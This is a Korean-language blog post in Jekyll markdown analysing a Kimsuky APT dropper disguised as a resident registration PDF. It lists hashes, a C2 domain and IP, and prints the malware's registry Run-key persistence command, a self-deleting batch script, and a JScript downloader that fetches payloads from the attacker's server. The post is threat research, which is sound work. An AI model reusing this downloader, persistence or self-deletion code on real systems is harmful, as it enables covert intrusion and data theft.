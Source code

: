 ```yaml
---
layout: post
comments: true
categories: posts
title: 김수키(kimsuky) 조직, 주민등록등본 파일로 둔갑한 악성코드 분석
subtitle: Operation Blue Estimate Part3
author: cainstorm
featured-image: /images/header/header_001.jpg
tags: [malware]
date-string: FEB 07, 2020
---
```

<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>window.jQuery || document.write('<script src="_/js/libs/jquery-1.9.1.min.js"><\/script>')</script>

<h1>Malware Analysis</h1>
### Description
지난 2013년 카스퍼스키랩을 통해 처음 명명된 '김수키(Kimsuky)' 오퍼레이션은 현재까지도 새로운 방식으로 진화를 거듭하며 한국을 타킷으로 한 APT 공격을 지속하고 있다. 김수키 조직은 북한 정부의 지원을 받고 있는 해킹조직으로 알려져 있다.

> Filename : 주민등록등본.pdf(다수 공백 포함).scr
> - MD5 : 20add5eb5fbe527a8b6090a08e7636a6
> - SHA1 : 347d2339fd27606df7b4f659a122c453560a44cb
> - SHA256 : 4942433b92198ed6f4cf5890fd4a7c56f0e6bd79dec3112844a5a25e25425b1b
> - Filesize : 	1.03 MB (1081856 bytes)
> - Detection (Virustotal **46/71**)
>  - ALYac : Trojan.Dropper.1081856K
>  - AhnLab-V3 : Backdoor/Win32.Kimsuky.C3980661

### Analysis
- PDF 문서로 위장된 아이콘을 사용하며, 파일 내부 실제로 보여지는 등본이미지가 포함된 것을 확인할 수 있다.
- 실제 화면보호기(SCR) 확장자를 통해 EXE 실행파일과 동일하게 실햄됨

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-001.png">
        [그림1] 파일 내부 확인(TIF 이미지 위, DLL 실행파일 아래)
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-002.jpg">
        [그림2] 악성파일 실행 시 보여지는 주민등록등본 이미지
	</div>
</center><br>

## Process flow

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-003.JPG">
        [그림3] process flow
	</div>
</center><br>

### rundll32.exe
```
cmd /c reg add "hkcu\Software\Microfost\Windows\CurrentVersion\Run" \v "IEAutoUpdate" \f \t REG_SZ \d "C:\Windows\system32\regsvr32.exe /s /n \"C:\Users\username\AppData\Roaming\Microfost\Internet Explorer\AutoUpdate\update.dll\"
```

### cmd.exe
```
cmd \c C:\Users\username\AppData\Local|Temp\rns.bat"
```

### cmd.exe
```
cmd /c wscript.exe "C:\Users\username\AppData\Local\Temp\EEB7.tmp.JS"
"http://mernberinfo.tech/wp-data/?m=hitomi&p=02004c4f4f50"
"C:\Users\username\AppData\Roaming\Microfost\Internet Explorer\AutoUpdate\Database\02004c4f4f50_2020-02-07_14-14-48-518"
"(null)" "(null)"
```

### wscript.exe
```
wscript.exe "C:\Users\username\AppData\Local\Temp\EEB7.tmp.JS"
"http://mernberinfo.tech/wp-data/?m=dunan&p=02004c4f4f50&v=win6.1.0-sp1-x64"
"(null)""(null)""(null)" 
```

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-004.PNG">
        [그림4] wscript.exe 프로세스 command line 확인
	</div>
</center><br>

##추가 파일 생성
 - 파일명 : rns.bat
 - path : C:\Users\username\AppData\Local\Temp\rns.bat
```
:Repeat1
del "C:\Users\username\Desktop\주민등록등본.pdf(다수 공백 포함).scr"
if exist "C:\Users\username\Desktop\주민등록등본.pdf(다수 공백 포함).scr" goto Repeat1
del "C:\Users\username\AppData\Local\Temp\rns.bat"
```
<br>
 - 파일명 : EEB7.tmp.JS
 - path : C:\Users\username\AppData\Local\Temp\EEB7.tmp.JS
```
fso=WScript.CreatObject("Scripting.FileSystemObject");
function func_download(uri,local_path) {
	rq=new ActiveXObject("MSXML2.ServerXMLHTTP");
    rq.open("get",uri,false);
    rq.send();
    if(rq.status==200) {
    	local_path_tmp=local_path+".tmp";
        if(fso.FileExists(local_path_tmp)) fso.DeleteFile(local_path_tmp);
        sl=new ActiveXObject('ADODB.Stream');
        sl.Open();
        sl.Type=1;
        sl.Write(rq.responseBody);
        sl.Position=0;
        sl.SaveToFile(local_path_tmp);
        sl.Close();
        if(fso.FileExists(local_path)) fso.DeleteFile(local_path);
        fso.MoveFile(local_path_tmp,local_path);
        return true;
    }
    return false;
}
try {
	func_download(WScript.Arguments(0), WScript.Arguments(1));
    } catch(e){} finally{
    	fso.DeleteFile(WScript.ScriptFullName);
    }
```

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-005.PNG">
        [그림5] %temp% 경로 아래 tmp 파일은 C2 Server 의 response 값을 저장
	</div>
</center><br>

 - 파일명 : Hero.dll
 - path : C:\Users\username\AppData\Roaming\Microfost\Internet Explorer\AutoUpdate\update.dll 
 - SHA256 : 9e004a659e8cb6236ac56671e4afa4b8fbb6f394807aa3decf6e268e17359ec6

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-006.PNG">
        [그림6] Hero.dll 실행 코드
	</div>
</center><br>

##시스템 정보 수집
 - network adapter, Hdd, system 정보 수집

<center>
    <div class="photoset-grid-custom" data-layout="22">
		<img src="/images/2020-02-07/2020-02-07-mal-007.PNG">
        <img src="/images/2020-02-07/2020-02-07-mal-008.PNG">
        <img src="/images/2020-02-07/2020-02-07-mal-009.PNG">
        <img src="/images/2020-02-07/2020-02-07-mal-010.PNG">
        [그림7] system 정보 수집 코드
	</div>
</center><br>

##네트워크 연결
 - Domain : mernberinfo.tech, IP : 213.190.6.159[US] 로 해당 Host 에 대한 정보 전송 확인
 - 전송 정보 : Mac address, Os version

<center>
    <div class="photoset-grid-custom" data-layout="2">
        <img src="/images/2020-02-07/2020-02-07-mal-011.PNG">
        <img src="/images/2020-02-07/2020-02-07-mal-012.PNG">
        [그림8] 네트워크 연결을 통한 정보 전송 화면
	</div>
</center><br>

##기타 행위
 - 자동 시작 Registry 등록
 - Path : HKCU\Software\Microfost\Windows\CurrentVersion\Run
 - IEAutoUpdate=C:\Windows\system32\regsvr32.exe /s /n
   "C:\Users\username\AppData\Roamming\Microfost\Internet Explorer\AutoUpdate\update.dll"

<center>
    <div class="photoset-grid-custom" data-layout="1">
        <img src="/images/2020-02-07/2020-02-07-mal-013.PNG">
        [그림9] Windows 자동 실행 등록
	</div>
</center><br>


<script src="/assets/js/jquery.photoset-grid.js"></script>
<script type="text/javascript">
    $('.photoset-grid-custom').photosetGrid({
    // Set the gutter between columns and rows
    gutter: '5px',

    // Wrap the images in links
    highresLinks: true,
      
    // Asign a common rel attribute
    rel: 'print-gallery',
    
    onInit: function(){},
    
    onComplete: function(){
        // Show the grid after it renders
        $('.photoset-grid-custom').attr('style', '');
    }
});
</script>


{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
